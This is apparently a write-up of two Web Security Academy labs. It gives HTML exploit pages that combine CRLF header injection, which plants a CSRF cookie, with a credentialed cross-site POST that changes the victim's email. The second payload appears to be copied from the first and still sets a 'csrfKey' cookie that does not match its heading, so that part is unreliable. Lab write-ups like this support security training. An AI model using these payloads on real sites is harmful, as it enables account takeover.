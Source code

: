 The answer is below:

```html

<html>

<head></head>

<body>

<img/src="https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/?search=aaaaa%0D%0ASet-Cookie:csrfKey=NasDIKNGTlh331nyYBjc3DH3gR0wiqex" />

<script>

xhr = new XMLHttpRequest();
xhr.open("POST", "https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=abcd%40abcd.com&csrf=JnRbd0xm0AN1gAwGgyvLx8ImWnAVH8gE");

</script>


</body>

</html>
```

Here first we are doing a search query to perform a header injection where we add another Set-Cookie header and our CSRF key. The second one is making a XMLHttpRequest with the associated CSRF value for that key. 


## Lab: CSRF where token is duplicated in cookie

Similar to the above one but the CLRF injection and the POST payload will have the same csrf token this time. 

```html

<html>

<head></head>

<body>

<img/src="https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/?search=aaaaa%0D%0ASet-Cookie:csrfKey=NasDIKNGTlh331nyYBjc3DH3gR0wiqex" />

<script>

xhr = new XMLHttpRequest();
xhr.open("POST", "https://acf41ff21f230e97c06294fc00380058.web-security-academy.net/my-account/change-email");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("email=abcd%40abcd.com&csrf=NasDIKNGTlh331nyYBjc3DH3gR0wiqex");

</script>


</body>

</html>
```